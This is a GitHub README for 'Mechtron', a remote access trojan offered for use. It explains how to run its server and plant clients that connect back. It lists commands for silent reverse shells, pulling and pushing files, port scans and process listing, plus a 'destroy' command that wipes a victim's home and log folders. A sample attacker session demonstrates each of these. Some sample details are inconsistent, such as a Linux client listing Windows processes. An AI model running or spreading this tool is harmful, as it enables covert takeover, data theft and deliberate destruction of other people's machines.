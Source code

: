 # Mechtron
Mechtron is a RAT that gives the server full remote access to the client machine. You can execute remote commands silently on the client machine. The server also has the ability to upload and download files from the client machine. Besides these commands, there are a few sugar commands.

The client software is distributed using the mechtron application, but by supplying an argument with the server's IP address.

```
./mechtron -c 127.0.0.1
```

The server is ran using one argument.
```
./mechtron -s
```

Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now, you'll have to deal with the source folders.

## Useful Tips
- You can aim a mechtron client at a mechtron server that doesn't exist yet.
- A torified shell will interfere with mechtron.
- You can use a client's ID anywhere you can use an IP address and vice versa.
- A client will have a new ID number assigned to it when it reconnects.
- The ID number is to the left of the IP address.

## Commands
<table>
    <tr>
        <th>Commands</th>
        <th>Description</th>
    </tr>
    <tr>
        <td>clients</td>
        <td>Get a list of the connected machines</td>
    </tr>
    <tr>
        <td nowrap>session IP</td>
        <td>Use session with an IP address to start a reverse shell session. Enter "exit" to stop</td>
    </tr>
    <tr>
        <td nowrap>get IP FILE FORMAT</td>
        <td>Use get with an IP address followed by a file path and a format to download files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>put IP FILE FORMAT</td>
        <td>Use put with an IP address followed by a file path and a format to upload files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>scan IP</td>
        <td>Scan all TCP ports on the client machine</td>
    </tr>
    <tr>
        <td nowrap>latency IP</td>
        <td>Get the speed of the connection for a client machine in milliseconds.</td>
    </tr>
    <tr>
        <td nowrap>programs IP</td>
        <td>Get a list of the running programs on a client machine.</td>
    </tr>
    <tr>
        <td nowrap>uptime IP</td>
        <td>Returns how long the client has been connected in minutes.</td>
    </tr>
    <tr>
        <td nowrap>reboot IP</td>
        <td>Reboots the client machine.</td>
    </tr>
    <tr>
        <td nowrap>destroy IP</td>
        <td>Destroys the clients machine. Not supported on Windows. Deletes the client machine's home folder and system's log folder. It should delete the application itself. This will break the system.</td>
    </tr>
    <tr>
        <td>help</td>
        <td>shows the HELP menu</td>
    </tr>
    <tr>
        <td>exit</td>
        <td>Closes Mechtron application</td>
    </tr>
</table>

## Instructions
  <table>
    <tr>
      <th>Program Parameters</th>
      <th>Description</th>
    </tr>
    <tr>
      <td>-s</td>
      <td>Server mode</td>
    </tr>
    <tr>
      <td>-c IP</td>
      <td>Client mode. This parameter requires an IP address</td>
    </tr>
  </table>

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
version 1
Useful tip: You can use the client ID in place of the IP!
___  ___          _     _
|  \/  |         | |   | |                    
| .  . | ___  ___| |__ | |_ _ __ ___  _ __    
| |\/| |/ _ \/ __| '_ \| __| '__/ _ \| '_ \
| |  | |  __/ (__| | | | |_| | | (_) | | | |_
\_|  |_/\___|\___|_| |_|\__|_|  \___/|_| |_(_)
By Evil Threads

[0] 127.0.0.1 chrisbasinger Linux joined
session 0
session started with [0] 127.0.0.1 chrisbasinger Linux
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 0 /home/chrisbasinger/script.sh text
download finished
get 0 /home/chrisbasinger/picture.jpg binary
download finished
put 0 /home/chrisbasinger/file.txt text
upload finished
put 0 /home/chrisbasinger/spreadsheet.xlsx binary
upload finished
scan 0
111 open
631 open
2049 open
4444 open
scan finished
latency 0
0.00022492 milliseconds
clients
+------------------------------------------+
|                 CLIENTS                  |
+----+------------+----------------+-------+
| ID | IP ADDRESS | NAME           | OS    |
+----+------------+----------------+-------+
| 0  | 127.0.0.1  | gazelle-laptop | Linux |
+----+------------+----------------+-------+
[1] 192.168.1.219 chris Linux joined
programs 1

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0         32 K
Registry                        92 Services                   0     20,628 K
smss.exe                       324 Services                   0        268 K
csrss.exe                      424 Services                   0      2,268 K
wininit.exe                    500 Services                   0        660 K
csrss.exe                      512 Console                    1      2,592 K
winlogon.exe                   596 Console                    1      3,228 K
services.exe                   616 Services                   0      6,212 K

uptime 0
1.7 minutes
destroy 0
[0] 127.0.0.1 chrisbasinger Linux disconnected
destroy 1
[1] 127.0.0.1 chris Linux disconnected
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```

## License
```
Copyright 2023 Chris Basinger

Licensed under the Apache License, Version 2.0(the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

```
